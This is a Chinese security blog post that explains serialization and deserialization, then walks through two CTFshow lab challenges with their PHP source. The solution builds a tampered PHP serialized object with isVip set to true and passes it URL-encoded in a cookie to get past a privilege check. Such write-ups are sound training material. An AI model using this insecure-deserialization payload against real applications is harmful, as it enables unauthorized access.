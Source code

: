 #  不妨练练反序列化漏洞   
原创 Caigensec  菜根网络安全杂谈   2025-03-03 04:16  
  
**点击标题下「蓝色微信名」可快速关注**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/ick6R1E3YokGicVeM3swHEZaM8cfEGLUB8QRicTAicIKyLaicmlicUGLv7XQP56vvc8dxVNSjYerVCHON8n1dlajco1w/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Sg02xflJ62rdxefX9thdaL8hxJWicY1vPlEmzNIWcBy2ypXTggHXX9e0kFDEVicficwTDdlLHLNrh6ica1SEvMqKeQ/640?wx_fmt=gif "")  
  
免责声明：本文仅用于合法范围的学习交流，若使用者将本文用于非法目的或违反相关法律法规的行为，一切责任由使用者自行承担。请遵守相关法律法规，勿做违法行为！本公众号尊重知识产权，如有侵权请联系我们删除。  
  
  
01  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JklNicn4RoOYselcxR3KCEWzc5XxKBV6dHxicYwheES56YJiczBO0ticvSn4pXR7hibHXW2Rpfr6027LhnCurzjwibXg/640?wx_fmt=png "")  
  
  
  
反序列化是什么  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rrbZLC2ibIgtgV382cFCwmibpHFT7jndu1ibEDpFia0dzsjETHdt0HFzYlVRnHIaumpf3QyVos7giadDicqSku9zOEibw/640?wx_fmt=jpeg "金属质感分割线")  
  
  
## 1、了解什么是序列化  
  
  
序列化是将数据结构或对象状态转换为可以存储或传输的格式的过程，通常是转换为字节流、字符序列或其他特定格式，以便在需要时能够在相同或不同的环境中重新创建出具有相同状态的对象或数据结构。  
### （1）实现跨平台和跨语言的数据交互  
  
通过将数据序列化为一种通用的格式，如 JSON 或 XML，不同的系统和语言就可以方便地进行数据交换。  
### （2）提升数据传输效率  
  
在网络传输中，将数据序列化为紧凑的格式可以减少数据的传输量，提高传输效率。特别是对于大量的数据或复杂的对象结构，序列化可以对数据进行优化和压缩，使其更适合在网络上传输。  
### （3）支持对象状态的保存和恢复  
  
在程序运行过程中，对象的状态可能会发生变化。通过序列化，可以将对象在某个时刻的状态保存下来，然后在需要的时候恢复到该状态。这对于实现程序的断点续传、状态回滚等功能非常有用。  
  
## 2、反序列化是什么  
  
  
反序列化是与序列化相反的过程，是指将已经序列化后的数据（如字节流、字符序列等）重新转换为内存中的数据结构或对象的操作。  
  
反序列化是一种数据恢复技术，它将存储在文件、数据库、网络传输中的序列化数据，按照特定的规则重新构建成内存中的数据对象或数据结构，就像把之前拆解并运输过来的零件，按照原来的标识和位置信息重新组装成原来的物体，使数据恢复到其在内存中的原始状态，以便程序能够继续对其进行处理和操作。  
  
  
02  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JklNicn4RoOYselcxR3KCEWzc5XxKBV6dHxicYwheES56YJiczBO0ticvSn4pXR7hibHXW2Rpfr6027LhnCurzjwibXg/640?wx_fmt=png "")  
  
  
  
反序列化漏洞学习  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rrbZLC2ibIgtgV382cFCwmibpHFT7jndu1ibEDpFia0dzsjETHdt0HFzYlVRnHIaumpf3QyVos7giadDicqSku9zOEibw/640?wx_fmt=jpeg "金属质感分割线")  
  
## 1、CTF show靶场web254题  
  
```
<?php/*# -*- coding: utf-8 -*-# @Author: h1xa# @Date:   2020-12-02 17:44:47# @Last Modified by:   h1xa# @Last Modified time: 2020-12-02 19:29:02# @email: h1xa@ctfer.com# @link: https://ctfer.com*/error_reporting(0);highlight_file(__FILE__);include('flag.php');class ctfShowUser{public $username='xxxxxx';public $password='xxxxxx';public $isVip=false;public function checkVip(){return $this->isVip;}public function login($u,$p){if($this->username===$u&&$this->password===$p){$this->isVip=true;}return $this->isVip;}public function vipOneKeyGetFlag(){if($this->isVip){global $flag;echo "your flag is ".$flag;}else{echo "no vip, no flag";}}}$username=$_GET['username'];$password=$_GET['password'];if(isset($username) && isset($password)){$user = new ctfShowUser();if($user->login($username,$password)){if($user->checkVip()){$user->vipOneKeyGetFlag();}}else{echo "no vip,no flag";}}
```  
  
  
（1）解题思路  
  
代码分析  
：题目中的ctfShowUser  
类默认设置username  
和password  
为'xxxxxx'  
。login  
方法会检查输入的用户名和密码是否与这些默认值匹配，如果匹配成功，会将isVip  
设为true  
。  
  
条件触发  
：当login  
方法返回true  
后，checkVip  
方法会检查isVip  
是否为true  
，若为真则调用vipOneKeyGetFlag  
方法输出flag。  
  
Payload构造  
：使用默认的username  
和password  
值'xxxxxx'  
进行登录即可满足所有条件，触发flag的输出。  
  
（2）解题步骤  
  
构造GET请求  
：在URL中添加参数username  
和password  
，均设置为xxxxxx  
。  
  
发送请求：访问构造好的URL，服务器验证通过后返回flag。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokHDaKJiaAoa5rLypPT6WY5Ur1hEYEcOY34BnaB0z2EL8tKL5FCZQiaPJwAX27m1YkJtticS37chpkIrA/640?wx_fmt=png&from=appmsg "")  
  
  
（3）解题代码  
  
https://xx.challenge.ctf.show/**?username=xxxxxx&password=xxxxxx**  
  
## 2、CTF show靶场web255题  
  
```
<?php/*# -*- coding: utf-8 -*-# @Author: h1xa# @Date:   2020-12-02 17:44:47# @Last Modified by:   h1xa# @Last Modified time: 2020-12-02 19:29:02# @email: h1xa@ctfer.com# @link: https://ctfer.com*/error_reporting(0);highlight_file(__FILE__);include('flag.php');class ctfShowUser{public $username='xxxxxx';public $password='xxxxxx';public $isVip=false;public function checkVip(){return $this->isVip;}public function login($u,$p){return $this->username===$u&&$this->password===$p;}public function vipOneKeyGetFlag(){if($this->isVip){global $flag;echo "your flag is ".$flag;}else{echo "no vip, no flag";}}}$username=$_GET['username'];$password=$_GET['password'];if(isset($username) && isset($password)){$user = unserialize($_COOKIE['user']);    if($user->login($username,$password)){if($user->checkVip()){$user->vipOneKeyGetFlag();}}else{echo "no vip,no flag";}}
```  
  
  
（1）解题思路  
  
代码分析  
：ctfShowUser  
类的login  
方法仅验证用户名和密码，不再设置isVip  
为true  
。isVip  
的值必须直接来自反序列化的对象。  
  
反序列化漏洞  
：通过篡改序列化字符串中的isVip  
属性为true  
，绕过权限检查。  
  
双重验证  
：需同时满足login  
验证（正确的用户名密码）和isVip  
为true  
。  
  
（2）解题步骤  
  
生成恶意序列化对象  
：创建一个ctfShowUser  
对象，设置isVip  
为true  
，并序列化该对象。  
  
设置Cookie  
：将序列化字符串作为user  
的Cookie值。  
  
发送请求：通过GET参数传递正确的用户名和密码，触发逻辑获取flag。  
  
  
（3）解题代码  
```
<?php//highlight_file(__FILE__);$a=123;class ctfShowUser{    public $username = 'xxxxxx';    public $password = 'xxxxxx';    public $isVip = true;}$a = new ctfShowUser();echo serialize($a);?>
```  
  
  
获得序列化的代码  
  
O:11:"ctfShowUser":3:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";s:5:"isVip";b:1;}  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokHDaKJiaAoa5rLypPT6WY5Ur7SzCb3iaLKrYHd5t3QwibibMlT5ZcQiatNqLntnqtj5c9q080QoghpQGmg/640?wx_fmt=png&from=appmsg "")  
  
对获取的代码进行url编码  
  
O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D  
  
获得CTF Flag  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokHDaKJiaAoa5rLypPT6WY5UrEr8aMdX4WibHEiblgMHCRxozF1gMads5Nqog7pJqyKbC7cK8u5WLlXoA/640?wx_fmt=png&from=appmsg "")  
  
  
THE END  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokFvoM6PLd2g5R9ZyvTVYQhyosDWxvJP5DSfU2zuS01w7sRwGM8y8FPkADsZgW9OzB1fkoEcrsDxmA/640?&wx_fmt=png "")  
  
亲爱的朋友，若你觉得文章不错，请点击关注。你的关注是笔者创作的最大动力，感谢有你  
！  
  
  
